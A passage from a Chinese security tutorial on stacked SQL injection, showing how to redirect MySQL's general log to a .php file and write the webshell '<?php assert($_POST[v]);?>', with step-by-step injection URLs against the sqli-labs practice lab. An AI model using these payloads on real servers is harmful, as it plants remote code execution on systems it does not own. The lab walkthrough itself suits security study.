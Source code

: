 不过首先要想有堆叠注入的条件，源码中必须要用到`mysqli_multi_query()`，那么我们此处就可以执行多个sql语句进行注入。一般后台查询数据库使用的语句都是用`mysql_query()`，所以堆叠注入在mysql上不常见。`mysqli_multi_query()`可以执行多个sql语句，而`mysqli_query()`只能执行一个sql语句。

堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

（3）再者就是已经成功登录到别人的数据库里了，要先`set global general_log_file='...php';`，然后直接执行`select '<?php assert($_POST[v]);?>';`

6.对方没有对`'`和`"`进行过滤,因为outfile后面的物理路径必须要有引号

用法
--

例子：直接登录进别人的数据库的时候：

```php
set global general_log_file='...php';

select '<?php assert($_POST[v]);?>';
```

或者堆叠注入：

```php
set global general_log_file='...php';

?id=1;select '<?php assert($_POST[v]);?>';
或者直接?id=<?php assert($_POST[v]);?>;都可以了，因为sql语句不管对错日志都会记录
```

过程
--

这里展示下堆叠注入的日志写马过程，用的是sqli-labs的靶场：

实战中堆叠注入来日志写马就不能用`show`来看全局变量的值了，所以就直接用sql语句修改。

1.先设置`general_log`为on：

`http://127.0.0.1/sqli-labs-master/Less-38/?id=-1' union select 1,2,3;set global general_log='on';--+`

2.再设置`general_log_file`为一个php后缀文件：

`http://127.0.0.1/sqli-labs-master/Less-38/?id=-1' union select 1,2,3;set global general_log_file='D:\\phpStudy\\PHPTutorial\\WWW\\log.php';--+`

**注：其中路径里的`\`用`\\`或者/代替，因为`\`的话会消失一个**

在Navicat中查询可以看到真的被改了：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7533d99f22ded66e7ae6e609a4e56f1284298eac.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7533d99f22ded66e7ae6e609a4e56f1284298eac.png)

可以看到这里必须要知道网站的绝对路径了。

3.`secure_file_priv`设置只能通过设置my.ini来配置，不能直接通过SQL语句来修改，因为它是只读变量。而且这里也不能`show`来看，所以只能看缘分~

4.`http://127.0.0.1/sqli-labs-master/Less-38/?id=1';select '<?php assert($_POST[v]);?>';--+`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fd27f7a600ac8ff80b40a59459b07ec272db6a2b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fd27f7a600ac8ff80b40a59459b07ec272db6a2b.png)
